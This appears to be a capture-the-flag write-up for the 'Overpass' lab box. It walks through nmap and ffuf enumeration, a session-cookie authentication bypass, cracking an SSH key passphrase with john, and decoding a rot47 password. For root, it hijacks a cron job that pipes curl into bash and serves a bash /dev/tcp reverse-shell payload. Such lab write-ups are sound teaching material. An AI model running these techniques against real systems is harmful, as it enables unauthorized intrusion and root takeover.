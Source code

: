 Target: 10.10.37.241 

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.37.241 

Nmap scan report for 10.10.37.241
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.37.241/FUZZ  

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
```

checking index

![index](overpass1.png)

checking /downloads

![/downloads](overpass2.png)

viewing source code of overpass.go
```
cat overpass.go

<snip>
//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters
<snip>
```

overpass uses rot47 as the encryption method

checking /admin

![/admin](overpass3.png)

inspecting login js code

![js](overpass4.png)
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

### Findings:Looking for attack vectors

Exploting Broken Authentication in login.js (Cookie SessionTokon).


## Foothold:

setting cookie on console
```
Cookies.set("SessionToken",1)
```

checking /admin authenticated

![/admin authenticated](overpass5.png)

making overpass_key
```
$ vim overpass_key

$ chmod 600 overpass_key
```

ssh2john
```
$ python ssh2john.py overpass_key > hash      
```

cracking passphrase with john
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash    

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (overpass_key)
1g 0:00:00:05 DONE (2021-05-18 04:25) 0.1879g/s 2695Kp/s 2695Kc/s 2695KC/sa6_123..*7¡Vamos!
Session completed
```

logging-in
```
$ ssh james@10.10.37.241 -i overpass_key

james@overpass-prod:~$ id

uid=1001(james) gid=1001(james) groups=1001(james)
```

```
james@overpass-prod:~$ cat user.txt

<redacted>
```

## Priv Escalations:

looking for suspiciuos file/s
```
james@overpass-prod:~$ ls -la

total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt

james@overpass-prod:~$ cat todo.txt

To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website

james@overpass-prod:~$ cat .overpass 

,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
````

decoding password (rot37)
```
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.

[{"name":"System","pass":"saydrawnlyingpicture"}]
```

enumeration using linpeas
```
./linpeas.sh

[+] Cron jobs
<snip>
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
<snip>
```

editiong /etc/hosts
```
vim /etc/hosts

<ip>	overpass.thm
```

preparing buildscript
```
$ mkdir downloads && cd downloads && mkdir src && cd src && touch buildscript.sh

$ vim buildscript.sh

bash -c 'exec bash -i &>/dev/tcp/<ip>/9001 <&1'
```

serving buildscript
```
$ sudo python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

waiting for conjob
```
root@overpass-prod:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@overpass-prod:~# cat root.txt

<redacted>
```
